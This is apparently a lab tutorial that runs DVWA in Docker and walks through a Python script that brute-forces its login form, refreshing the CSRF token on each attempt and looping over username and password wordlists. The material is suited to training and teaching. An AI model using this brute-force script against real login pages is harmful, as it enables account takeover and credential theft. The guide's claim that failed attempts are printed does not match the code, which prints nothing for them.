







# Ethical Login Testing with Python and CSRF Handling

This guide demonstrates how to ethically test login functionality in a controlled environment using Python. The project involves a web application hosted in a Docker container and accessed via Poridhi's load balancer. The Python script automates credential testing, dynamically retrieves CSRF tokens, and highlights the importance of robust security mechanisms in web applications.


## **Objective**

1. **Test Login Functionality**: Validate credentials against a web application's login form.
2. **Handle CSRF Protection**: Dynamically extract and use CSRF tokens to comply with security mechanisms.
3. **Automate Testing**: Implement ethical brute-forcing to identify valid credentials.
4. **Understand Security Mechanisms**: Demonstrate the importance of CSRF handling and error detection.


## **Project Structure**

Here’s the folder structure for the project:

```
ethical-login-testing/
├── test.py                # The Python script for login testing
├── usernames.txt          # File containing test usernames
├── passwords.txt          # File containing test passwords
```

## **Set Up the Docker Environment**

For this lab, we will be using the DVWA (Damn Vulnerable Web Application) Docker image. This is a simple web application that is used to test the security of web applications. It is designed to be used in a controlled environment for testing purposes.


1. **Pull the Docker Image**:
   Download the DVWA image from Docker Hub:
   ```bash
   docker pull vulnerables/web-dvwa
   ```

2. **Run the Docker Container**:
   Start the container on port 80:
   ```bash
   docker run -d -p 80:80 vulnerables/web-dvwa
   ```

3. **Verify Access via Poridhi's Load Balancer**:

   Find the `eth0` IP address of the `Poridhi's` VM.
   ```bash
   ifconfig
   ```

   

   Create a Loadbalancer in Poridhi's Cloud Portal with the `eth0` IP and port `80`.

   

   Poridhi’s load balancer routes traffic to the Docker container. Access the application with the URL.

   


4. **Set DVWA Security Level**:
   - Log in with the default credentials:
     - **Username**: `admin`
     - **Password**: `password`

   - Navigate the `Setup DVWA` page. And click on `Create / Reset Database` to create a new database.

   

   Now `logout` from the application, and login again with the default credentials as `admin` and `password`.

   - Navigate to the **DVWA Security** tab and set the security level to **Low**. Then logout from the application.

   

## **Prepare Input Files**

1. **`usernames.txt`**:
   Add potential usernames, one per line:
   ```
   user
   test
   guest
   admin
   admin123
   admin1234
   root
   root123
   ```

2. **`passwords.txt`**:
   Add potential passwords, one per line:
   ```
   admin
   guest
   test123
   test1234
   password
   alex
   alex123
   alex1234
   ```

## **Python Script To Attack DVWA**

Now, we will create the script to test the login functionality of the DVWA application. This script will attempt to login to the application with each username and password combination in the `usernames.txt` and `passwords.txt` files. Before that it will extract the CSRF token from the login page. Then it will attempt to login to the application with the extracted CSRF token, username and password combination. If the login is successful, the script will print the username and password combination. If the login is unsuccessful, the script will print the username and password combination and continue to the next combination.


Save the following Python script as `test.py` in the project folder:

```python
import requests
import re

# Base URL and login endpoint
url_base = "https://<poridhi-load-balancer-url>/"
url_login = url_base + "login.php"

# File paths for usernames and passwords
path_users_file = 'usernames.txt'
path_passwords_file = 'passwords.txt'

# Function to retrieve CSRF token
def get_csrf_token(session):
    response = session.get(url_login)
    if response.status_code == 200:
        match = re.search(r"name='user_token' value='(.*?)'", response.text)
        if match:
            return match.group(1)
    print("Failed to retrieve CSRF token.")
    return None

# Function to attempt login
def attempt_login(session, username, password, csrf_token):
    login_data = {
        'username': username,
        'password': password,
        'Login': 'Login',
        'user_token': csrf_token
    }
    response = session.post(url_login, data=login_data)
    if "Login failed" not in response.text:
        return True
    return False

# Read usernames and passwords from files
with open(path_users_file, 'r') as f:
    usernames = [line.strip() for line in f]
with open(path_passwords_file, 'r') as f:
    passwords = [line.strip() for line in f]

# Initialize session and validate connection
session = requests.Session()
response = session.get(url_base)
if response.status_code != 200:
    print("Unable to connect to the application.")
    exit()

# Main script logic
csrf_token = get_csrf_token(session)
if not csrf_token:
    exit()

for username in usernames:
    for password in passwords:
        csrf_token = get_csrf_token(session)  # Refresh token for each attempt
        if attempt_login(session, username, password, csrf_token):
            print(f"Success! Username: {username}, Password: {password}")
            break
```
> Note: Replace `<poridhi-load-balancer-url>` with the URL of the Poridhi's load balancer as 

```bash
https://<poridhi-load-balancer-url>/
```



## **CSRF Token Protection**

Cross-Site Request Forgery (CSRF) tokens are security measures used to prevent unauthorised actions on behalf of authenticated users. The script dynamically retrieves and includes this token in each login attempt to comply with server-side validation. In each login attemps, the application generates a new CSRF token. So each login attempt is a new request.


### **Code for Token Handling**

```python
def get_csrf_token(session):
    response = session.get(url_login)
    if response.status_code == 200:
        # Extract the CSRF token from the response HTML
        match = re.search(r"name='user_token' value='(.*?)'", response.text)
        if match:
            return match.group(1)  # Return the extracted token
    print("Failed to retrieve CSRF token.")  # Print an error if token is not found
    return None
```

**How it Works**:
1. **GET Request**:
   - Sends a request to the login page to fetch its HTML content.
2. **Token Extraction**:
   - Uses a regular expression to extract the CSRF token (`user_token`) from the hidden input field in the HTML.
3. **Return Token**:
   - Returns the token for inclusion in the POST request.

## **Run the Script**

1. **Place Input Files**:
   Ensure `usernames.txt` and `passwords.txt` are in the same directory as `test.py`.

2. **Execute the Script**:
   Run the script using:
   ```bash
   python3 test.py
   ```

3. **Expected Output**:
   If valid credentials are found:
   ```
   Success! Username: admin, Password: password
   ```

   

If no valid credentials are found, the script terminates without any output.


## **Ethics**

1. **Authorisation**:
   - Ensure you have explicit permission to test the application.
2. **Controlled Environment**:
   - The setup involves a Docker container and load balancer, ensuring no harm to production systems.
3. **Educational Purpose**:
   - This guide is for learning and ethical testing only.

## **Conclusion**

This guide outlines the steps to set up a controlled environment for ethical login testing. By dynamically handling CSRF tokens and automating credential testing, the script highlights the importance of secure login mechanisms in web applications. Always conduct testing responsibly and within authorised boundaries.